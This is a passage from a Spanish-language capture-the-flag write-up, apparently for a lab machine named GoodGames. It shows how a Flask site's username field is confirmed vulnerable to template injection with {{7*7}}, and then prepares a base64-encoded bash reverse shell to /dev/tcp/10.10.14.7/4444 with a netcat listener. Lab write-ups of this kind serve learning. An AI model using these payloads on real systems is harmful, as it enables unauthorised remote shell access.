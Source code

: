 De donde se visualiza que trabaja con Flask y Python por lo cual sea muy probablemente vulnerable a Server Side Template Injection (`SSTI`)

Navegando a la página de configuración vemos que podemos editar nuestros datos de usuario.

Después de cambiar nuestro nombre de usuario a \{\{7\*7\}\} vemos que nuestro nombre de usuario se ha cambiado a 49 y nuestra carga útil SSTI se ha ejecutado.

![Untitled](/assets/img/GoodGames/Untitled44.png)

Se comprueba que es vulnerable para `SSTI`

En esta etapa sabemos que el sitio es vulnerable a SSTI por lo que podemos inyectar un payload y obtener un Shell. Primero codificar a `base64` nuestro payload, a continuación, iniciar un `netcat` a nivel local

Comando: `echo -ne 'bash -i >& /dev/tcp/10.10.14.7/4444' 0>&1 | base64`

Obteniendo:

![Untitled](/assets/img/GoodGames/Untitled45.png)

A continuación, construimos una carga útil `SSTI` básica para entregar in situ a través del campo de nombre.

También se podría levantar un servidor `http` con Python que contenga nuestra bash
